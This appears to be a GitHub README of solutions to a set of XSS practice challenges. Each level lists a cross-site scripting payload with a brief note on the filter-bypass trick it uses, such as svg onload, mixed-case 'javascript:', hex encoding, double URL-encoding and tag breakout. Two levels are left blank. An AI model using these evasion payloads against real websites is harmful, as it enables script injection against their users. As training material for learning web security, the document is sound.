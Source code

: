 # XSS Challanges from https://www.zixem.altervista.org/XSS

## Level 1

```html
<svg/onload=alert()>
```
## Level 2

- WAF looking for "script"

```html
<object data="javascRipt:alert()">
```

## Level 3

- %0A (LF = linefeed)

```html
%0A<svg/onload=alert()>
```

## Level 4

- Inline html

```html
x' onerror=javascript:alert()//
```

## Level 5

- param reflected in form post field (action)

```html
XSS&action=javascript:alert(1337)
```

## Level 6

- Hex encodin \x

```
\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x29
```

## Level 7

- Double urlencodeing 

```html
%253Csvg%2520onload%253Dalert%2528%2529%253E
```

## Level 8

## Level 9
- Escape the html tag with '</p>'

```
</p><svg/onload=alert()>
```

## Level 10
